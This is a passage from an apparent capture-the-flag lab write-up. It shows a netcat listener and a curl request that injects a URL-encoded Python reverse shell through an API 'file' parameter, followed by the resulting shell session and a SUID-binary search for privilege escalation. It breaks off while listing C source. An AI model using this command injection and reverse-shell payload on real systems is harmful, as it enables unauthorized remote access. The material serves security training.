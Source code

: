 ## Payload delivery

On attacker machine we first start a listener 

```bash
┌──(kali㉿kali)-[~/Desktop/local-web]
└─$ nc -nvlp 1234            
listening on [any] 1234 ...
```

Then we perform a curl request containing the payload 
```bash
┌──(kali㉿kali)-[~]
└─$ curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThkNmI4NzE3ODQyYTA0NTdjOGE0NmQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFkbWluMTIzQGFkbWluLmNvbSIsImlhdCI6MTYzNjY1ODMxMX0.DIylbTPk5K12O1LN3SengBhq2tJ3ZXXoAk_CfjttR3k' -X GET '10.10.11.120:3000/api/logs?file=2;python3%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.29%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3Bos.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bpty.spawn(%22%2Fbin%2Fsh%22)%27%0A'
```

We successfully get the reverse shell spawned at the attacker machine. 

```bash
┌──(kali㉿kali)-[~/Desktop/local-web]
└─$ nc -nvlp 1234            
listening on [any] 1234 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.11.120] 43308
$ whoami
whoami
dasith
$ ls
ls
index.js  node_modules  package-lock.json  routes  validations.js
model     package.json  public             src
$ cd ..
cd ..
$ ls
ls
local-web  user.txt
```

We finally get the user flag in user.txt file

# Privilege Escalation
## SUID Binaries
```bash
find / -type f -perm -u=s 2>/dev/null
```
Gives us an intresting file with setuid at /opt/count.
looking for the files in opt directory we are given the code for the binary too.
```bash
dasith@secret:/opt$ ls
code.c
count
valgrind.log
```
Exploring the code provided along the binary
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dirent.h>
#include <sys/prctl.h>
```